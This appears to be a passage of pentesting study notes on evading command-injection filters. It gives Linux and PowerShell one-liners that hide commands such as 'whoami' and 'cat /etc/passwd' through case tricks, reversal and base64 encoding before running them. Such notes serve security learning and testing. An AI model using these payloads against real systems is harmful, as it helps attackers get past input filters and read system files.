 The above command failed due to usage of spaces&#x20;

<figure><img src="../../.gitbook/assets/Command Injections-2.png" alt=""><figcaption></figcaption></figure>

We can use `$(a="WhOaMi";printf %s "${a,,}")`

### Reversed commands

#### Linux

To get reversed command: `echo 'whoami' | rev` To execute: `$(rev<<<'imaohw')`

**Tip**: If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.

#### Windows

**Powershell**

To reverse: `"whoami"[-1..-20] -join ''`&#x20;

To execute:

```
iex "$('imaohw'[-1..-20] -join '')"
```

### Encoded Commands

#### Linux

To encode:&#x20;

```
echo -n 'cat /etc/passwd | grep 33' | base64 To execute: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

Tip: Note that we are using <<< to avoid using a pipe |, which is a filtered character.

#### Windows

To base64 encode:&#x20;

```
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

To execute:&#x20;

```
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))
```
